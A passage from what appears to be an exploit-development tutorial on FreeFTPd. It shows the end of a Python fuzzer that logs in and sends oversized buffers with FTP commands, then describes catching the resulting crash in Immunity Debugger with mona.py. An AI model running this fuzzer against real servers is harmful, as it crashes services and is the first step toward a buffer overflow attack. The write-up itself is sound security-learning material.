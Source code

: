 ```python
    s.connect((host, port))
    print s.recv(1024)
    s.send(username)
    print s.recv(1024)
    s.send(password)
    s.recv(1024)

    for command in commands:
        s.send(command + buffer)
        print "[+] Sent " + command + "payload with length: %d" % len(buffer)

    s.close()
except:
    print "[-] Something went wrong :("
``` 

This is not the best fuzzer as it doesn't do all of the character and length insertions / manipulations like Spike or BooFuzz do; however, it seemed to get the job done. You may also see where I went wrong with my Spike template, and why that didn't work. First thing's first, I need to start the FreeFTPd application and attach it to a debugger. I will be using [Immunity Debugger](https://www.immunityinc.com/products/debugger/) along with the fabulous [mona.py](https://github.com/corelan/mona) script from Corelan Team. With everything setup and running, this fuzzer should work!

![screenshot](/assets/img/freeftpd/fuzz_crash.PNG)

Well well well! Look at that! We got a partial over-write somewhere. Let's check the registers and see where/what caused the crash. 

## Making The Crash Reliable
